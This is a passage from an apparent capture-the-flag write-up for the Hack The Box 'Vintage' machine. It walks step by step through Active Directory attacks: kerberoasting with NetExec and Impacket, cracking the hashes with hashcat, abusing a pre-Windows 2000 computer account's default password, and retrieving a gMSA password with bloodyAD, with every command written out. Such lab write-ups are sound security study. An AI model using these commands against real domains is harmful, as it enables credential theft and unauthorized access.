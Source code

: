 4. After trying other dead ends (like SMB enumeration and AS-REP Roasting after getting a list of usernames with NetExec LDAP), we try kerberoasting again but this time, with NetExec and the debug flag

`nxc ldap dc01.vintage.htb -u p.rosa -p 'Rosaisbest123' -d vintage.htb -k --kerberoasting kerberoast.txt --debug`

<img width="912" height="839" alt="image" src="https://github.com/user-attachments/assets/fb8b93c3-6efb-48e8-abae-f27c92162d73" />

5. It turns out, NetExec by default removes machine accounts from the Kerberoast search filter. This is because machine account hashes are normally generated by the machine and are nearly uncrackeable. However, there may be exceptions so we change the filter to include them and try again. We do this by modifying the ldap.py file

`nxc ldap dc01.vintage.htb -u p.rosa -p 'Rosaisbest123' -d vintage.htb -k --kerberoasting kerberoast.txt --debug`

<img width="727" height="243" alt="image" src="https://github.com/user-attachments/assets/ed885d47-ef6d-4987-b1e0-6ce67090e499" />

6. This time, it's a success! We get 2 hashes and we crack them offline with hashcat.

`hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt`

<img width="1733" height="475" alt="image" src="https://github.com/user-attachments/assets/b2faa4f8-b1e2-4076-9992-832d48a7c7e0" />

7. However, they are not crackeable. With no other leads left, I try kerberoasting one last time with Impacket's GetUserSPNs script and giving it the list of usernames. And success! We got one more hash for the krbtgt account

`GetUserSPNs.py vintage.htb/P.Rosa:Rosaisbest123 -dc-ip 10.129.85.186 -request -k -dc-host dc01.vintage.htb -usersfile users.list`

<img width="915" height="879" alt="image" src="https://github.com/user-attachments/assets/798df541-b7b5-4230-b40e-8202e122270f" />

8. Since this is a $krb5tgs$18 hash, we attempt to crack offline using hashcat module 19700

`hashcat -m 19700 krbtgt_kerberoast.hash /usr/share/wordlists/rockyou.txt`

9. However, the hash doesn't crack again and after much headache, we discover on Bloodhound that the FS01$ account is a member of the PRE-WINDOWS 2000 COMPATIBLE ACCESS group. According to this article, Pre-Windows 2000 computers have its password set based on it name. https://www.thehacker.recipes/ad/movement/builtins/pre-windows-2000-computers

<img width="586" height="390" alt="image" src="https://github.com/user-attachments/assets/10020a8e-0d0e-426b-b25e-5609b40a2199" />

10. We check FS01's password with netexec and success!

`nxc ldap dc01.vintage.htb -u 'FS01$' -p 'fs01' -k`

<img width="767" height="61" alt="image" src="https://github.com/user-attachments/assets/cf22abc6-bb1d-4b30-a638-d8f80ebf6d88" />

11. FS01$ is part of the Domain Computers group, which has ReadGMSAPassword permission on account GMSA01$. We retrieve the GMSA password using bloodyAD

`bloodyAD -k --dc-ip 10.129.231.205 --host dc01.vintage.htb -u 'FS01$' -p 'fs01' -d vintage.htb get object 'gMSA01$' --attr msDS-ManagedPassword`
